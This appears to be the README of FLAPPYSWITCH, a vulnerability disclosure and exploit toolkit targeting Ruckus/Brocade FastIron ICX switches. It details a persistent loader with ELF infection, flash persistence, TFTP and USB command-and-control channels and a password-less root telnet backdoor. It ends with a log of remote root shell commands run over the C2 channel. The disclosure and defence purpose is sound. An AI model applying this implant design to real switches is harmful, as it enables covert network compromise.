

## What is FLAPPYSWITCH?

FLAPPYSWITCH is a suite of components and tools developed by Subreption and a collaborating researcher to examine security issues affecting enterprise network switches. Specifically, it targets the FastIron Linux OS—found in both older FastIron switches and the modern ICX product line from Brocade (now Ruckus/CommScope) - via a chain of vulnerabilities enabling persistent compromise. Notably, FLAPPYSWITCH does not rely on advanced exploitation techniques like ROP gadgets or shellcode, which makes it viable against a wide range of FastIron devices released over the last decade.

FastIron itself is a Linux-based operating system powering switches built on Broadcom (or Marvell) system-on-chip architectures, incorporating specialized FPGA/ASIC hardware for high-speed L2/L3 routing and an extensive range of features such as ERSPAN (remote traffic mirroring) and VPN tunneling. Originally developed by Foundry Networks from the late 1990s through the early 2000s, FastIron retained much of its core implementation even as it evolved. Today, it underpins Ruckus (formerly Brocade) ICX platforms, which CommScope now owns.

Our reverse engineering and vulnerability research spanned much of 2024, following the Salt Typhoon disclosures. A portion of the findings were independently presented by our collaborating researcher at [DistrictCon in Washington, DC](https://www.districtcon.org/) to a limited audience.

This publication marks the first comprehensive release of our research. Although we disclosed the vulnerabilities to CommScope in October 2024, subsequent fixes released in January 2025 -accompanied by limited security bulletins at the end of February 2024- did not fully address the issues.

We are therefore publishing these details to raise awareness, encourage swift remediation, and highlight the broader topic of enterprise network switch security, which remains both critical and frequently overlooked.

## Vulnerabilities involved

FLAPPYSWITCH leverages multiple vectors and vulnerabilities to achieve persistent code execution in ICX switches:

 - **CVE-2024-50606**: the entire FastIron/ICX product line has relied on a insecure (fundamentally flawed) trust chain since its inception to provide integrity assurance in FIPS/CC mode.
   - The bootloader (U-boot) relies on an EEPROM bit being (and standard U-boot environment variables per recent modifications) set for gatekeeping (restricting the command set available on boot).
   - Integrity verification is done by the `FastIron` monolithic binary in user-land, after the entire system has already booted, with code objects loaded from persistent NAND/flash partitions outside of the verification scope.
   - This verification is done either via executing `openssl` commands via `system()` (FastIron 9.x and later) or a function (FastIron 8.x) leveraging OpenSSL APIs. Both at design and implementation levels, it suffers of a trivial TOCTOU (time of check, time of use) vulnerability.
   - Even in the latest models (ex. 8200 series) running FastIron `10.x`, where the SoC and CPU support SecureBoot components, these are still not leveraged to authenticate the bootloader chain and firmware image (kernel with ramdisk, etc).
   - The overall design and implementation contain critical flaws that significantly undermine its effectiveness, despite having obtained FIPS/CC certifications.

- **CVE-2024-50607**: A path traversal vulnerability present in the handling of the `copy` command parameters.
- **CVE-2024-50604**: Flawed integrity verification process in UFI packages.
  - An user-land executable `checksum_vrfy process` is used to verify the integrity of the firmware image packages.
  - Besides being flawed (TOCTOU) by design, the implementation makes several mistakes that will be detailed in depth in a separate publication.
- **CVE-2024-50605**: An otherwise "irrelevant" bug that provides a filesystem write primitive.  The kind of bug that most vendors will shrug off and may not even bother to fix, because what could go wrong?
  - In this case, writing a file whose contents we control to a predictable or known location.
  - When trusted certificates are retrieved by FastIron, upon failed validation, it fails to cleanup the file.

The direct impact of these issues (especially CVE-2024-50606) is that any vector (vulnerability) yielding a "cli breakout" (command or code execution in the underlying Linux OS) can be leveraged to achieve persistence and fully invalidate all the supposed assurances provided by FIPS/CC mode.

The monolithic design of the FastIron system also means any component has effective `uid=0` (root) privileges (there is no address space isolation, let alone privilege separation between components). Once a malicious third-party has achieved arbitrary code execution or injection in the context of the process communicating with the network fabric (FPGA/ASIC), network capture and manipulation at line-rate become possible, just by leveraging existent features of these systems (such as the integrated egress and ingress packet "field processors").

Simply put, the attack surface of the FastIron OS is immense, as several complex components (SNMP, sFlow, SSH/SCP, etc) are effectively running inside the same context as everything else. CommScope/Ruckus may choose to apply incomplete fixes that target the specific vectors (as they have done to date) but largely fail to address the true root cause of the problem, as the assumption that no remotely exploitable vulnerabilities exists in the entire attack surface is obviously flawed. Proper remediation of the "root cause", including the trust chain for FastIron, involves a non-trivial engineering effort that might also be impossible in older models, or require hardware changes impossible to apply to existent deployments.

### Ruckus/CommScope Security Advisory ID 20250218



### Affected products and versions

All `8.x`, `9.x` and `10.x` FastIron firmware releases to date, including the updates released on January 2025.

| **Firmware Train**       | First GA release (approx.) |
|--------------------------|------------------------------|
| **8.x**                  | Mid–Late 2015               |
| **9.x**                  | 2017–2018                   |
| **10.x**                 | 2021–2022                   |

Tested against:
  - `10.0.10f` as released 2025-03-11 04:51:23 AM
    - https://support.ruckuswireless.com/software/4396-ruckus-icx-fastiron-10-0-10f_cd1-ga-software-release-zip
  - `09.0.10j` as released 2025-03-06 04:51:16 AM
    - https://support.ruckuswireless.com/software/3956-ruckus-icx-fastiron-09-0-10j-ga-software-release-zip
    - https://support.ruckuswireless.com/software/4298-ruckus-icx-fastiron-09-0-10j_cd6-ga-software-release-zip (2025-01-20 09:38:48 AM)
    - https://support.ruckuswireless.com/software/4398-ruckus-icx-fastiron-09-0-10j_cd7-ga-software-release-zip (2025-03-06 04:51:16 AM)
  - `08.0.95r` as released 2025-01-27 06:04:47 AM
    - https://support.ruckuswireless.com/software/4397-ruckus-icx-fastiron-08-0-95r-ga-software-release-zip
  - `08.0.95q` as released 2024-12-18 09:47:26 AM
    - https://support.ruckuswireless.com/software/4358-ruckus-icx-fastiron-08-0-95q-ga-software-release-zip
  - `08.0.95p` as released 2024-06-27 05:31:17 AM
    - https://support.ruckuswireless.com/software/4100-ruckus-icx-fastiron-08-0-95p-ga-software-release-zip

#### Affected hardware

The following product series are affected (regardless of port count), released under the Brocade or Ruckus brands:

| **ICX Series** | **Approx. initial release year** |
|---------------|-----------------------------------|
| **ICX 6450**   | ~2012–2013                       |
| **ICX 7150**   | ~2016                            |
| **ICX 7250**   | ~2015-2016                       |
| **ICX 7450**   | ~2015                            |
| **ICX 7650**   | ~2017                            |
| **ICX 8200**   | ~2021–2022                       |

## Astral projection: a short tale about *physical access only* vectors

Referenced in **Ruckus/CommScope Security Advisory ID 20250218** ("CVE-2024-50607, CVE-2024-50604: ICX Directory Traversal and Image Integrity Check Vulnerability"):
  - https://www.ruckusnetworks.com/globalassets/digizuite/1013475-faq-security-advisory-id-20250218-v1.pdf (PDF)
  - https://www.ruckusnetworks.com/globalassets/digizuite/1013474-faq-security-advisory-id-20250128-v1.txt (TXT)

Without details about impact on FIPS/CC mode, described as follows:

  > Collectively, these vulnerabilities can allow an authenticated attacker **with physical access** to perform a
malware injection attack on vulnerable ICX switches.

Assuming the statement above is truthful and accurate, SCHOMESCHULTO (as released in FLAPPYSWITCH) might very well be the first exploit leveraging *paranormal astral projection* to abuse a *physical access-only* vector.

**Note: All targets in FIPS and Common Criteria mode.**

### 9.x and 10.x


Note that `9.x` targeting is *mostly* identical to `10x`.

### 8.x


## Contents

 - `loader`: source code for a payload as a DSO (shared library) leveraged by the provided exploit(s).
   - `tftp.c`: an inspired TFTP client, **TAO**FTP, "*Making TFTP Great Again*".
   - `infector.c`: an ELF infector relying on a technique first published in [Phrack Magazine 61](https://phrack.org/issues/61/8#article) (*"The Cerberus ELF Interface"* by mayhem).
   - `devices.c`: basic routines for interacting with ICX switch components such as the system CPLD and EEPROM.
   - `loader.c`: the core routines for repair, infection and handling of flash-backed backup copies.
   - `partition.c`: trivial MBR USB disk parser for a hidden partition-based C2 channel.
 - `exploits/SCHOMESCHULTO.py`: A CLI breakout exploit for CVE-2024-50605 and CVE-2024-50607 (uses the loader)
   - The exploit delivers a seamless experience against targets supporting both SSH and Telnet session modes.
   - It will handle FIPS/CC targets properly.
   - TFTP (from TAOFTP) is used to deliver the loader and establish a C2 channel. So as long as the switch can route traffic back out its management port/interface, it will work.
 - `misc`:
   - `taoftp_tables.sh`: a Bash script to manage TFTP forwarding (including all ephemeral port connections, via `conntrack`) to a remote server, alleviating the need for privileges to run the TAOFTP in the standard port `69`.
   - `make_funk.py`: Python program to produce FUNK images for the USB drive C2 functionality.
   - `funk_tool.py`: Python program to write the FUNK image to a target USB drive.
 - `built`: built objects and binaries (as needed) for only the ICX 7150 series.
   - `loader32.so`: 32-bit ARM BE build of the loader, ready for use with the intended limitations described in this document.
   - The binary objects are intentionally crippled (refer to the source code) and contain artifacts for forensic detection of both traffic and files inside the switch.

## Loader structure and design

The `loader` acts as a staging payload and a persistent loading system for dynamically injecting other components (ex. so-called *implants*).

### Features
 - **Standalone minimalistic ELF infector** via `DT_DEBUG` forgery, honoring the seminal work by *mayhem* in Phrack Magazine issue 61.
   - Effectively provides a path to persistence via ELF patching with as few as four bytes modified and no file size alterations.
   - Any target executable that runs or loads prior to FastIron executing at the end of the init process will negate all FIPS/CC integrity assurances.
 - **Low-level hardware interaction**: APIs to interact with the low-level components of the switch, including the system CPLD, EEPROM, etc.
   - System CPLD interaction: powercycling, re-routing/swapping EEPROM banks, boot partition select, etc.
   - EEPROM read/write functions (ex. can disable the FIPS/CC bit).
 - **Post-exploitation repair**: A repair mechanism that allows the loader to be used as a stager (ex. with CVE-2024-50607).
 - **NAND/Flash-level persistence**: Leverages an unused flash partition to permanently store a copy of itself.
   - This persistence mechanism does not impact the image as present on the flash, therefore all system administrator-exposed facilities to *copy* or *export* the image will yield a clean image without IOCs.
 - **Cross-partition infection**: the loader attempts to achieve persistence through cross-infection of the image partitions and their packages.
   - **FastIron does not isolate boot environments (primary/secondary/gold image), therefore compromise of one environment results in compromise of the rest of them**.
 - **Custom TFTP C2 channel**: TFTP is still common in enterprise networks, and it is exceedingly easy to implement. The loader takes advantage of the fact that all outbound traffic originating from the underlying Linux OS in the switch will be routed unimpeded out of whichever interface is being used to communicate remotely with the CLI user. FLAPPYSWITCH implements a modified TFTP client that supports an extended set of requests to execute commands, among other operations.
 - **USB disk hidden data stream C2 channel**: for demo purposes, the loader contains a simple mechanism to leverage a hidden stream (pseudo-partition) in USB disks plugged into the switch (when present) for command execution and file management.
   - Most modern ICX switches support external USB storage.
   - This was added to the public release for demonstrating how lateral movement (ex. incidents like Salt Typhoon) is an actual *practical risk with enterprise network equipment and unsuspecting system administrators*, where USB disks are often used for transporting firmware updates and other tasks. In the hypothetical case that a USB disk was re-used across physically segregated networks (after setup, for example), this would permit opportunistic (but not necessarily reliable) communication across such *airgaps*.
 - All alterations performed on the ramdisk (root filesystem) itself are ephemeral and will be wiped after a powercycle (the loading and decompression process of the kernel by U-boot and ramdisk itself -by the kernel- will effectively overwrite all remanent data from the previous RAM state).

### Principle of operation

 1. The loader determines the loading location (*entrypoint* or path of the loader DSO).
    - It will detect if the path is a system critical DSO, and attempt to repair it.
    - For example, using a vector like CVE-2024-50607, `/lib/libm.so.6` is overwritten with the loader DSO. This is detected and the original `libm` is restored in-place.
 2. The loader writes itself to an unused NAND/flash partition area and copies itself to the persistent storage.
    - The loader updates this copy and the associated persistence locations only when necessary.
 3. If loaded as a possible stage for a cli breakout vulnerability, the affected DSO is repaired.
 4. A list of version-dependent generic *pivot* (locations where the loader will attempt to place itself for persistence) targets is verified.
 5. Critical packages are infected across the available partitions (primary and secondary have their own persistent package storage inside `/fast_iron`).
    - The infection mechanism relies on forgery of `DT_DEBUG` entries in the targeted ELF objects, turning them into a `DT_NEEDED` entry which instructs the linker (on runtime) to attempt loading a DSO (shared library) from the library paths known to the linker (first found, first selected basis).
    - The forged entries point within the ELF `STRTAB` with an offset, reusing a valid DSO name with an alteration (skipping the first N bytes). The linker will only parse after that offset and until the NULL terminator.
    - Design and implementation choices made in FastIron are abused to ensure that the `DT_NEEDED` entry forces the loading of a controlled copy of the loader from the pivot locations, from persistent storage manipulated by the attacker.
 6. A custom TFTP client will attempt connecting back to the attacker, initiating a C2 channel.
    - This public release **intentionally avoids** hijacking an existent socket or open connection in the FastIron process, which would allow communication over an existent transport. A threat actor could manipulate the configured ports in the switch and create tunnels in-FPGA. As stated throughout this document, we have carefully decided against providing a completely weaponized toolkit as it is unnecessary to prove the real extent and impact of the security issues affecting FastIron in the ICX series.
 7. A password-less telnet daemon is enabled on port 1337. Clients will receive a `uid=0` shell.
 8. The system is now persistently compromised without modification of the actual UFI image in NAND.

 Mechanisms for persistence across firmware updates have been intentionally removed in the public release.

## Rationale for publication

Unfortunately, enterprise network switch security research remains limited, with few notable precedents in recent years. Those who have been in the field long enough may recall the foundational research by Felix “FX” Lindner on Cisco IOS in the early 2000s and Michael Lynn’s “CiscoGate” incident, but there has been relatively little since.

Subreption engaged in a comprehensive coordinated disclosure process with the vendor (Ruckus/CommScope) starting in October 2024. Although initial friction was limited, the vendor nevertheless showed considerable reluctance to acknowledge the full severity and technical impact of the issues. Eventually, it emerged that the vendor had issued a silent fix without allowing us to review or validate it. Later, they released advisories that, while crediting Subreption for reporting the issues, framed them as “physical vector” concerns—omitting the broader ramifications for FIPS/Common Criteria (CC) mode. Compounding this, certain bootloader changes were introduced that conflicted with prior claims by the vendor: Subreption proposed temporary modifications to support cryptographic verification of FastIron firmware before boot, but these suggestions were declined, allegedly due to “FIPS re-evaluation” requirements.

The vendor also refused to acknowledge the assigned CVEs (labeling them as “weaknesses,” not “vulnerabilities”) and continued to dispute core technical details, both before and after January 2025. It appeared that reputation management played a prominent role in their approach to disclosure. Moreover, it seemed possible that the vendor’s security team was operating under significant internal constraints or pressures. This situation, where technical experts are overshadowed by higher-level decision-making, is unfortunately not uncommon. Without full visibility into a vendor’s internal structure, it is difficult to determine precisely how these decisions were made or who was ultimately responsible.

Our disclosure policy adheres to the guidelines of Google and Project Zero. Having granted the vendor a total of more than 120 days (including extensions beyond our usual “no exceptions” stance), we concluded that public release serves the broader interests of the industry, as well as the US federal sector.

In an ironic twist, **releasing FLAPPYSWITCH is the only straightforward means to dump firmware in FIPS/CC-enabled environments without using invasive hardware approaches** (like desoldering flash). This allows customers running FIPS/CC mode to conduct forensic analysis that would otherwise be impeded by the restrictions of the FastIron CLI, which an implant could easily circumvent or hide from.

Nevertheless, **we would prefer the focus remain on the technical and regulatory issues**, rather than any perceived negligence or incompetence by the vendor. These challenges are, regrettably, a recurring theme across the industry, especially where organizations have limited security resources or subject matter expertise, or when management’s priorities override thorough vulnerability response. We consider vulnerabilities fundamentally a technical problem, not merely a political or marketing issue.

Events like *Salt Typhoon* demonstrate that a wide range of devices and vendors can be significantly affected by systemic vulnerabilities. FIPS/CC evaluations, in particular, should entail more than a checkbox exercise; they must deliver tangible security benefits. Similarly, vendor responses to severe or widespread vulnerabilities should center on product security rather than reputation management. Shifting industry norms in that direction requires acknowledging these realities across technical, regulatory, and business practices.

Ultimately, whether a vendor’s internal process is solely at fault or if the broader evaluation and certification frameworks share responsibility is a question for the community and regulators to explore.


## Salt Typhoon

Subreption makes no specific claims of Ruckus or CommScope products having been successfully targeted in the context of Salt Typhoon incidents, as publicized in the press. However, Subreption also does not have evidence pointing to the contrary. The details related to the incident have not been released to the public, but this is a great opportunity to "truly go looking". The hard truth, as uncomfortable as it might be, is that any relatively sophisticated threat actor can and could have abused the FLAPPYSWITCH vulnerabilities to achieve persistence and negate FIPS/CC assurances. The state of the art in enterprise network switch security is unfortunately severely lacking across most vendors, and it also remains as an obscure and niche field of research even to the industry at large.

It must be noted that enterprise environments usually leverage RADIUS or TACACS authentication backends, and that *authentication requirements* do not represent additional difficulty, and can't be construed as a mitigating circumstance at all.  While CommScope's public advisory makes an intentional emphasis on the issues "requiring authentication", in practice, such authentication credentials are readily compromised by threat actors and it is misleading and dangerous to downplay the severity of the vulnerabilities, especially in the context of incidents like Salt Typhoon where lateral movement is the norm, and nation state threat actors prioritize targeting of system administrators and their workstations. The bottom line being, a vendor's reputation management wishes and interpretations needn't have any actual correlation with real world circumstances.

    "We should be considerate to the living; to the dead we owe only the truth."
    Letter to M. de Grenonville (1719), Voltaire

On that note of owing the truth to the dead, the amount of devices destined to become e-waste due to Salt Typhoon and similar incidents is undetermined.  It seems that in this *grand* game of nation states mucking with each other's infrastructure, everyone gets hit at some point. Or in the famous words of an anonymous individual uttered in Shmoocon, sometime 2007, ["zeroday can happen to anyone"](https://www.youtube.com/watch?v=L74o9RQbkUA).

## Remediation

Ruckus/CommScope has taken steps to address some of the reported issues, but these efforts have thus far proven insufficient. Subreption was not given the opportunity to review or validate the quietly released updates, and there appear to be **silently** modified components whose effects remain unclear. Moreover, it seems that greater emphasis was placed on measures aimed at limiting diagnostics and reverse engineering (such as bootloader modifications to restrict the available command set) rather than implementing robust product safety improvements. Some of these changes also appear inconsistent with earlier statements about the difficulty of adapting the bootloader for proper cryptographic verification in alignment with FIPS requirements.

Unfortunately, some “end of life” products cannot be feasibly fixed, while more modern series may require significant redesign or a large-scale overhaul of their software architecture. Such undertakings are rarely trivial, particularly when attempted late in a product’s lifecycle.

## On FIPS and Common Criteria

While it could be argued that the state of the art in network equipment security is subpar across the board, FastIron ICX products are FIPS and Common Criteria evaluated. This is not just another iteration of glaring vulnerabilities in Asus or TP-Link products used by non-professional or so-called SOHO *prosumers*. These are products that cater to the US federal government, undergo costly evaluation and certification and are to be held to a much higher standard of security.

When pursuing both FIPS 140 and Common Criteria for a network switch intended for U.S. federal use:

 - Lower bound: If the switch's cryptographic functions are straightforward (perhaps already using a validated FIPS module) and the CC evaluation is targeted at a basic EAL or recognized Protection Profile, total external + internal costs will be in the 150-300k USD range.
 - Typical commercial range: More commonly, for medium-to-large vendors aiming at enterprise/federal markets, total certification costs across FIPS + CC can easily exceed 500k to 1 million USD, counting internal engineering, documentation, lab fees, and consulting.

 It stands to reason that any product receiving such certifications **should stand up to the heat**, so to speak, of external security research. And conversely, the process itself should be thorough and qualified enough to discover at the very minimum the most obvious paths to *digital calamity*. The moment systemic or serious vulnerabilities are found in products with FIPS/CC certifications, the actual value of the certification process itself diminishes and trust is compromised.


### FIPS 140-3 Non-Proprietary Security Policy for Ruckus FastIron ICX™ 7150/7250 Series Switch/Router Firmware Version: IronWare OS 09.0.10

The document is quoted verbatim, emphasis is ours:

> 5. Software/Firmware Security
>
> **Integrity Techniques**
>
> The module performs the Firmware Integrity tests by using CRC-32 during the Pre-Operational Self-Test. At Module’s initialization, the integrity of the runtime executable binary file is verified using the following two integrity check mechanisms to ensure that the module has not been tampered:
> • Bootloader Integrity Test (CRC-32)
> • Firmware Integrity Test (CRC-32)
>
> If at the load time the CRC-32 value does not match the stored, known CRC-32 value, the module would enter to an Error state with all crypto functionality inhibited.
>
> **In addition, the module also supports the firmware load test by using RSA 2048 bits with SHA2-256 (RSA Cert. #A2345) for the new validated firmware to be uploaded into the module**. A Firmware Load Test Key was preloaded to the module’s binary at the binary the factory and used for firmware load test. In order to load new firmware, the Crypto Officer must authenticate into the module before loading any firmware. **This ensures that unauthorized access and use of the module is not performed**. The module will load the new update upon reboot. The update attempt will be rejected if the verification fails.
>
> Integrity Test On-Demand
> Integrity test is performed as part of the Pre-Operational Self-Tests. It is automatically executed at power-on. The operator can power-cycle or reboot the module to initiate the firmware integrity test on-demand. **This automatically performs the integrity test of all firmware components included within the boundary of the module**.

We consider the statements above, in the context of the present release, to be both misleading and inaccurate.

Original: https://csrc.nist.gov/CSRC/media/projects/cryptographic-module-validation-program/documents/security-policies/140sp4843.pdf

### Implications of inaccurate vulnerability reporting on certification integrity

#### DISA

The "Memorandum for disitribution" from the Joint Interoperability Test Command (JTE) of the Defense Information Systems Agency (Department of Defense), 1 April 2024, with subject "Extension of the Joint Interoperability Certification of the CommScope Ruckus ICX 7000 Series Switches with Software Release FastIron 9.0.10j" is quoted below:

> JITC analysis determined **no additional CS or IO testing was required because the update to FastIron 9.0.10j to implement minor security updates and bug fixes** and removal of the specified ICX models from the list of certified SUT components did not change the certified IO features and function or approved CS posture of the SUT.
>
> (Source: Defense Information Systems Agency DOD Information Network (DODIN) Approved Products List (APL), https://jitc.fhu.disa.mil/tssi/cert_pdfs/2029601_DTR4_CommScope_ICX7000_v9.0.10j_01APR2024.pdf)

We consider the statements above, in the context of the present release, to be proof that misleading or inaccurate reporting of software vulnerabilities by vendors can **directly lead certification authorities (such as JITC) to incorrectly characterize critical security vulnerabilities** as "minor security updates and bug fixes." **This misrepresentation potentially undermines the integrity of interoperability and cybersecurity certifications and exposes certified infrastructure to undisclosed and unmitigated risks**.

#### Common Criteria

Citing the following:

- Gossamer Security Solutions, Inc. *Common Criteria Assurance Activity Report for CommScope Ruckus FastIron ICX Series Switches*. Document ID: AAR-VID11478, Version 0.3, June 28, 2024, pp. 77.
  - https://www.niap-ccevs.org/862ccadb-4af4-4820-8539-b1f0506c8db0
  - https://www.niap-ccevs.org/products/11478

> *Section 6.5 of [ST] states the TOE includes a number of built in diagnostic tests that are run during start-up to determine whether the TOE is operating properly. If a self-test fails, the TOE is not operational and reboots until the error is cleared or the administrator gets help from Ruckus. When operating in FIPS mode, the power-on self-tests comply with the FIPS 140-2 requirements for self-testing. The module performs Cryptographic algorithm known answer tests, firmware integrity tests using RSA signature verification and conditional self-tests for DRBG, Hardware RNG, Pair-wise consistency tests on generation of RSA keys, and a Firmware load test (RSA signature verification). Upon failing any of its FIPS mode power-on self-tests, the TOE will refuse to boot. **The tests are sufficient to ensure the correct operation of the security features as they address firmware integrity and cryptographic operations.***

The statements made in the Common Criteria evaluation report (section 2.5.4 regarding NDCPP22E:FPT_TST_EXT.1.1) inaccurately portray the reliability and sufficiency of the FastIron ICX Series' self-testing mechanisms. Specifically, the report asserts that the implemented firmware integrity and cryptographic verification tests (RSA signature verification, known answer tests, and conditional tests) are sufficient to ensure the correct operation of security features and the overall integrity of the TOE.

However, as demonstrated by the vulnerabilities disclosed (CVE-2024-50604, CVE-2024-50606, CVE-2024-50607), these integrity verification processes are fundamentally flawed due to Time of Check, Time of Use (TOCTOU) vulnerabilities. In practice, these checks occur **after** the firmware has already loaded and executed, significantly undermining their intended security function.

Furthermore, the evaluation documentation describes a scenario where "the TOE will refuse to boot" upon a failed integrity test. In reality, as confirmed by the FLAPPYSWITCH disclosures, the integrity verification **occurs in user-space after boot**, meaning malicious code may execute before or entirely bypass these checks, contradicting the assurance claim provided in the evaluation report. **Thus, the description presented in the Common Criteria evaluation inaccurately represents the actual security posture and effectiveness of FastIron's self-testing implementation**.


## Limitations

**The released code and tooling contains artifacts and intentional *crippling* implementation choices to diminish its value as a weaponized toolkit**. For example, the persistence capability in the infector has been compiled out (the infector will **not** actually write the modifications in targeted ELF objects). No additional implant components or capabilities are included for targeting FIPS verification or applying runtime modifications (ex. hooks), limiting its usefulness to achieving code execution for demonstration purposes and forensic capabilities.

In addition, the built loader and sources in this public release have been limited to 32-bit targets. 8100/8200 models (codename `RODAN` and `BABYRODAN`), for example, are mixed 32-bit and 64-bit targets ("multilib"). The exploit will **not** work as advertised against them, despite vulnerabilities being present, simply because the loader component needs to be adjusted accordingly for the architecture. Device support is also **intentionally** limited to `MINIONS` platforms (ex. 7150).

This public release also does not contain capabilities involving the Broadcom/Marvell *fabric* to connect back. It will depend on being in the same L2 subnet for the management port or VE interface. Again, this is another **intentional** limitation to minimize its usefulness. A threat actor can readily leverage the facilities in the Broadcom SDK through instrumentation of the FastIron process or direct DMA/device writes, altering the configuration of the *FPGA* for punching "holes" in the switch's logical ports (ex. ethernet or fiber), opening tunnels or routing traffic between vlans as needed, for example.

Subreption is not releasing toolchain packages or other necessary tooling to build FLAPPYSWITCH components from the provided sources.

#### 64-bit targets (8200, RODAN, Marvell-based)

**Not included in public release.**

```
[*] TaoFTP server started on 0.0.0.0:69 serving file: loader.so
[*] Starting TaoFTP interactive shell. Type 'help' for commands.
[!] Received unsupported TFTP opcode 8215 from ('192.168.1.57', 50193)
[*] TaoFTP: Magic request received from ('192.168.1.57', 58028)
[+] Remote process: pid 7105, parent 1, uid 0, euid 0
[+] Magic request from ('192.168.1.57', 58028): persistent session opened with ID 1.
[*] TaoFTP: Magic request received from ('192.168.1.57', 51757)
[+] Remote process: pid 6238, parent 1, uid 0, euid 0
[+] Magic request from ('192.168.1.57', 51757): persistent session opened with ID 2.
TaoFTP > select 1
[*] Session 1 selected.
TaoFTP [1]> shell uname -a
[+] MAGIC ACK for op 17 with 106 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 1, payload 102 bytes.
[+] Command executed in remote (('192.168.1.57', 58028)):
    Linux Ruckus-ICX 4.14.76-19.0.0Image #1 SMP PREEMPT Sun Dec 29 21:56:46 PST 2024 aarch64_be GNU/Linux
TaoFTP [1]> shell cat /proc/cpuinfo
[+] MAGIC ACK for op 17 with 446 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 1, payload 442 bytes.
[+] Command executed in remote (('192.168.1.57', 58028)):
    processor	: 0
    BogoMIPS	: 50.00
    Features	: fp asimd aes pmull sha1 sha2 crc32 atomics fphp asimdhp cpuid asimdrdm lrcpc dcpop
    CPU implementer	: 0x41
    CPU architecture: 8
    CPU variant	: 0x2
    CPU part	: 0xd05
    CPU revision	: 0

    processor	: 1
    BogoMIPS	: 50.00
    Features	: fp asimd aes pmull sha1 sha2 crc32 atomics fphp asimdhp cpuid asimdrdm lrcpc dcpop
    CPU implementer	: 0x41
    CPU architecture: 8
    CPU variant	: 0x2
    CPU part	: 0xd05
    CPU revision	: 0

TaoFTP [1]> shell ps auxw
[+] MAGIC ACK for op 17 with 4096 bytes.
[*] Received exec ACK pkt: seq 0, final_flag 0, payload 4092 bytes.
[+] Command executed in remote (('192.168.1.57', 58028)):
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
(...)
    root      2243  0.2  0.4  43748 15268 ?        SNl  21:50   0:04 /crit_pkg/SyslogProcessPkg/bin/fi_syslog
    root      2395  0.2  0.4  61028 13784 ?        SNsl 21:50   0:04 /crit_pkg/logmgrPkg/bin/logmgr_proc
    root      2422  0.2  0.0  31004  2728 ?        Ssl  21:50   0:04 /usr/local/bin/systatsd
    root      2441  1.0  1.2 118948 41176 ?        SNl  21:50   0:19 /usr/bin/python3 /crit_pkg/PluginProcessPkg/bin/plugin_proc.py
    root      2449  0.4  0.1  37380  5744 ?        Ssl  21:50   0:09 /usr/local/bin/poed
    root      2468  0.6  0.8  74832 27460 ?        Sl   21:50   0:12 /usr/bin/python3 /crit_pkg/SlamProcessPkg/bin/slam_server.py
    root      2503  0.2  0.1  43728  5092 ?        Ssl  21:50   0:04 /usr/local/bin/hmond
    root      2507  0.0  0.0  10876  2324 ?        S    21:50   0:00 /usr/local/bin/hmond
    root      2531  0.2  0.1  36340  5644 ?        Ssl  21:50   0:04 /crit_pkg/FileMgrPkg/bin/filemgr_proc RD start
    root      2532  0.2  0.1  37388  4996 ?        Ssl  21:50   0:04 /usr/local/bin/capm_daemon
    root      2534  0.0  0.0  20152   432 ?        Sl   21:50   0:00 /usr/local/bin/fw_downloader fw_downloader
    root      2559  0.2  0.3  48012 10940 ?        Ssl  21:50   0:04 /crit_pkg/DnldMgrPkg/bin/dnldmgr_proc
    root      2563  0.0  0.0   2140   100 ?        Ss   21:50   0:00 /usr/sbin/tftpd -c -l -s /var/lib/tftpboot
    root      2608  0.2  0.1  35672  5552 ?        SNl  21:50   0:04 /.pkg/supportSavePkg/bin/fi_ss_svc
    root      2614  0.0  0.0  20156   476 ?        Sl   21:50   0:00 /usr/local/bin/fw_downloader fw_downloader
    root      2712  0.2  0.3  45936 12048 ?        SNsl 21:50   0:04 /.pkg/PortProfilePkg/bin/port-profile
    root      2732  0.0  0.0   3272  2244 ttyS0    Ss+  21:50   0:00 /bin/sh /usr/local/bin/console.sh start
    root      2733 99.0 16.2 2048968 527668 ?      Ssl  21:50  30:54 //usr/local/bin/FastIron
(...)
